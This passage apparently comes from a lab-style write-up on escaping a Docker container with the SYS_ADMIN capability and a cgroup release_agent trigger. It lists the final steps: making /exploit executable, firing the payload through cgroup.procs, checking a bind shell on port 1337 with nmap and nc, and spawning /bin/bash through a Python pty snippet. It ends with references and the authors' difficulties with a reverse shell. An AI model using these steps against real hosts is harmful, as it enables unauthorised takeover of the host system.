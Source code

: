 	It is a bind shell written in python which will open port 1337 for connections on operating system's IP. **Please note that the port on which the shell is to be bound should be free. By running above command more than once, can leave the connection on specified port in CLOSED_WAIT state and hence above command will not work. Port number can be replaced to avoid this problem.**

6. Make the exploit file executable

	`chmod a+x /exploit`

7. Now we will spawn a dummy process inside child cgroup, which will end immediately and hence release_agent will be triggered inside operating system, and our payload will be executed.

	
	`sh -c "echo \$\$ > /tmp/cgrp/child/cgroup.procs"`
	
8. Now, check the status of port 1337 by scanning the IP of the operating system

	`nmap -Pn 192.168.2.44 -p 1337`
	
You could see the status is open. Now is the time to connect to the bind shell which is waiting for our connection.

9. Use netcat to connect to the port 1337

	`nc 192.168.2.44 1337`
	
10. Once you are connected to the socket, spawn a bash shell using following snippet, then press **ctrl+D** (Don't press enter) to send EOF signal.

	`import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/bash");s.close()`

and BOOM! You got access to the operating system.

---

#### References:

1. https://blog.atucom.net/2017/06/smallest-python-bind-shell.html	[Smallest Python Bind Shell]
2. https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/	[SYS_ADMIN Exploit Breakdown]
3. https://docs.docker.com/engine/api/sdk/examples/	[Communicating with docker.sock using unix sockets]
4. https://docs.docker.com/engine/api/v1.41/#tag/Exec	[Creating and starting an exec instance on already running container using HTTP]
5. https://tryhackme.com/room/dockerrodeo	[Docker Registry, Reverse Engineering docker images]

#### Challenges Faced:

1. There are many articles on the internet to guide one about running a container with docker.sock and unix sockets but there is no mention of running commands on already running containers using docker.sock and unix sockets. Nevertheless, we were able to deduce it from docker engine API documentation.
2. While gaining access to the operating system using SYS_ADMIN capability, it was hard to find a working exploit with a reverse shell, on the internet. All of the available writeups were limited to running 'ps aux' command to prove the control over OS. We tried to modify the exploit to gain the reverse shell on OS, and we almost managed to run it  however it always ended up with a 'broken pipe' as soon as the first command was ran on the reverse shell. We tried fixing it by changing the payload to a bash script, a python script, a netcat command but no luck. So, we had to go ahead with a 'bind shell' written in python and it worked out.
